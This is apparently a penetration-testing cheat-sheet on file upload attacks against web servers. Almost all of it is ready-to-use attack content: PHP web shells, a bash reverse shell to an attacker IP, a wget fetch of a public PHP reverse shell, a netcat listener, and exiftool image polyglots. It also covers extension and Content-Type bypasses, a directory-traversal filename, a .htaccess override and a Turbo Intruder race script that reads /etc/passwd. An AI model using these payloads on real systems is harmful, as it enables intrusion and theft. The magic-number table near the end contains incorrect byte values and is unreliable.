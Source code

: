 ```yaml
---
title: File Upload Attack
desc: 
tags: [Burp, Exiftool, File, Netcat, Reverse, Shell, Upload, Web]
alts: [OS-Command-Injection, Reverse-Shell]
render_with_liquid: false
---
```


## Prepare a Payload

1. **Create a Web Shell**

    For example, the file name is "exploit.php".

    Simply showing the result of 'whoami'.

    ```php
    <?php echo system('whoami'); ?>
    ```

    This shows the content of "/etc/passwd".

    ```php
    <?php echo file_get_contents('/etc/passwd');  ?>
    ```

    Or you can use more useful payload with query parameter e.g. "/exploit.php?cmd=whoami"

    ```php
    <?php echo system($_GET['cmd']); ?>
    ```

2. **Create a Reverse Shell**

    ```php
    <?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1'"); ?>
    ```

    Or download the payload from GitHub.

    ```sh
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

    # Edit some variables in the payload
    $ip = '<attacker-ip>'
    $port = 4444
    ```

    You need to open listener for getting a shell.

    ```sh
    nc -lvnp 4444
    ```

    After uploading it, reload the page in which the payload uploaded e.g. "/upload/shell.php".

3. **Create a Polyglot using Exiftool**

    It's assumed that you have an arbitrary image file.

    ```sh
    exiftool -Comment="<?php system('ls'); ?>" example.png
    exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' exploit.png
    exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
    ```

<br />

## Bypass the File Validation Techniques when Uploading the Payload

Upload the payload in somewhere e.g. the profile picture's upload form.  
In most cases, you need to bypass the file validation.

1. **Bypass the File Extension Validation**

    If you cannot upload the payload with ".php", modify the extension.

    ```
    exploit.php
    exploit.php3
    exploit.php4
    exploit.php5
    exploit.phtml
    exploit.php.
    exploit.php.jpg
    exploit.php.png
    exploit%2Ephp
    exploit.p.phphp
    exploit.php%00.jpg
    exploit.php%0d%0a.jpg
    exploit.pHp
    exploit.gif.pHp
    exploit.jpg.php
    exploit.png.php
    ```

2. **Bypass Content-Type Validation**

    If you cannot upload with "Content-Type: application/x-php", try changing it to **"Content-Type: image/jpeg"**.

    ```
    POST /upload HTTP/1.1
    ...

    ------abcdefghijk
    Content-Disposition: form-data; name="avatar"; filename="exploit.php"
    Content-Type: image/jpeg

    <?php echo system($_GET['cmd']); ?>

    ------abcdefghijk
    ```

3. **Change the File Name to Directory Traversal**

    You may be able to edit the upload location by changing the **"filename"**.

    ```
    POST /upload HTTP/1.1
    ...

    ------abcdefghijk
    Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
    Content-Type: application/x-php

    <?php echo system($_GET['cmd']); ?>

    ------abcdefghijk
    ```

4. **Override the Server Configuration**

    You may be able to override the ".htaccess".

    ```
    POST /upload HTTP/1.1
    ...

    ------abcdefghijk
    Content-Disposition: form-data; name="avatar"; filename=".htaccess"
    Content-Type: text/plain

    AddType application/x-httpd-php .abc

    ------abcdefghijk
    ```

5. **Camouflage the Exploit as Image File**

    You may be able to bypass exif_imagetype() of PHP by editing the contents in the payload as image file.

    ```php
    // exploit.php

    GIF32a
    <?php echo system($_GET['cmd']); ?>
    ```

6. **Bypass the Filter (Client-Side & Server-Side)**

    If the target website uses filter JavaScript around file uploading, you may be able to bypass it by using Burp Suite.

    ```sh
    On Burp Suite, click "Proxy" tab and "Options".

    # Client-Side
    1. Navigate to "Intercept Client Requests" section, click on the top line ("File extension"...) then click "Edit".
    2. The popup will open.
    3. On the popup, find and remove the "|^js$" in the "Match condition", then save the filter.

    # Server-Side
    1. Navigate to "Intercept Server Requests" section and check "Intercept responses based on...".

    # ----------------------------------------------

    1. Turn the intercept on.
    2. On browser, press Ctrl+F5 (hard refresh) to reload the page.
    3. If you found the filtering file (.js), drop it.
    ```

7. **Race Conditions using Turbo Intruder**

    ```python
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=10,)

        request_post = '''POST /avatar/upload HTTP/1.1
    Host: vulnerable.com
    ...
    ...
    Connection: close

    ------abcdefghi
    Content-Disposition: form-data; name="avatar"; filename="exploit.php"
    Content-Type: application/x-php

    <?php echo file_get_contents('/etc/passwd');  ?>

    ------abcdefghijk--

    '''

        request_get = '''GET /files/avatars/exploit.php HTTP/1.1
    Host: vulnerable.com
    ...
    ...
    Connection: close


    '''

        engine.queue(request_post, gate='race1')
        for i in range(5):
            engine.queue(request_get, gate='race1')


        engine.openGate('race1')
        engine.complete(timeout=60)
        


    def handleResponse(req, interesting):
        table.add(req)
    ```

<br />

## Other Tips

1. **Magic Numbers**

    ```sh
    # PNG
    89 50 4E 47 ...

    # JPEG
    FF D8 DD E0 ...

    # JPG
    FF D8 FF EE ...
    ```